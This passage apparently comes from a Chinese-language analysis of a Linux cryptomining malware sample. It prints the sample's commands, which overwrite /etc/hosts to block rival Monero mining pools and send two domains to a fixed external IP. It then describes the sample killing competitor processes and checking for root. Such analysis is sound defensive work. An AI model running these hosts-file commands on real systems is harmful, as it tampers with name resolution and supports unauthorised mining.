 ```

echo \"127.0.0.1 pool.monero.hashvault.pro\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 xmr-us.suprnova.cc\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 de.moriaxmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 de2.moriaxmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 fr.minexmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 de.minexmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 ca.minexmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 sg.minexmr.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 xmr.bohemianpool.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 xmr-usa.dwarfpool.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 monero.miners.pro\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 xmr.prohash.net\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 thyrsi.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 minerxmr.ru\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 zer0day.ru\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 minergate.com\" &gt;&gt; /etc/hosts

echo \"127.0.0.1 pixeldra.in\" &gt;&gt; /etc/hosts

echo \"220.194.237.43 w.3ei.xyz\" &gt;&gt; /etc/hosts

echo \"220.194.237.43 w.21-3n.xyz\" &gt;&gt; /etc/hosts
```

2.测试主机是否能联网，如下所示：

[![](https://p4.ssl.qhimg.com/t01d64b4fcfff6b6f19.png)](https://p4.ssl.qhimg.com/t01d64b4fcfff6b6f19.png)

3.检测/etc/zigw、/tmp/zigw、/etc/zjgw等文件是否存在，如果存在，则结束相关进程，删除对应的文件，如下所示：

[![](https://p1.ssl.qhimg.com/t01e19cdf68c722ba20.png)](https://p1.ssl.qhimg.com/t01e19cdf68c722ba20.png)

4.判断主机是否拥有root权限，如下所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01eb07151c86ebf5f4.png)
